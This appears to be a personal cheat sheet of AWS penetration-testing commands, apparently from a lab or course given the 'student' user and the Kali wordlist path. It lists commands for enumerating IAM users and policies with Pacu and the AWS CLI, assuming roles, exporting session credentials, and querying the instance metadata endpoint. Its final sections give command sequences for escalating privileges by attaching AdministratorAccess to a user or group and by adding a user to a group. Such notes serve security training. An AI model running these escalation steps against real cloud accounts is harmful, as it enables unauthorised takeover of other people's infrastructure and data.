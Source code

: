 ## Create IAM role
`aws iam create-role --role-name a4 --assume-role-policy-document file://assume-role-doc.json`  

## Enumerate users (pacu)
`run iam__enum_users --role-name a4 --account-id <account ID from $aws__enum_account> --word-list /home/kali/names.txt`  

## Assume Role
`aws sts assume-role --role-arn arn:aws:iam::276384657722:role/ad-LoggingRole --role-session-name ad_logging`  
### Export secrets
```
export AWS_ACCESS_KEY_ID=<>
export AWS_SECRET_ACCESS_KEY=<>
export AWS_SESSION_TOKEN=<>
//unset
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```  
### Confirm assumed role  
`aws sts get-caller-identity`  
### Retrieve attached policies for assumed role  
`aws iam list-attached-role-policies --role-name ad-LoggingRole`  
### From here we can list buckets and their objects with readonlyaccess  

## List policies attached to user  
`aws iam list-attached-user-policies --user-name <user>`  
### Check policy details for the a policy  
`aws iam get-policy --policy-arn arn:aws:iam::aws:policy/<policy>`  
### View policy details for versions  
`aws iam get-policy-version --policy-arn arn:aws:iam::225489834925:policy/Service --version-id v1` 

## List inline policies attached to users  
`aws iam list-user-policies --user-name student`  
### Enum inline policies
`aws iam get-user-policy --user-name student --policy-name <inline policy>`  
`aws iam list-role-policies --role-name Adder`  
`aws iam get-role-policy --role-name Adder --policy-name AddUser`  

## Get Region  
`curl http://169.254.169.254/latest/dynamic/instance-identity/document`  
`aws configure get region`  
`curl -s http://169.254.169.254/latest/meta-data/placement/availability-zone | sed 's/\(.*\)[a-z]/\1/'`  
 
## Abuse `iam:AttachUserPolicy` being present  
`aws iam list-policies | grep 'AdministratorAccess'`  
`aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-user-policies --user-name student`  
`aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-group-policies --group-name Printers`  

## Abuse `iam:AddUserToGroup` being present
`aws iam add-user-to-group --group-name Printers --user-name student`  
`aws iam list-groups-for-user --user-name student`  
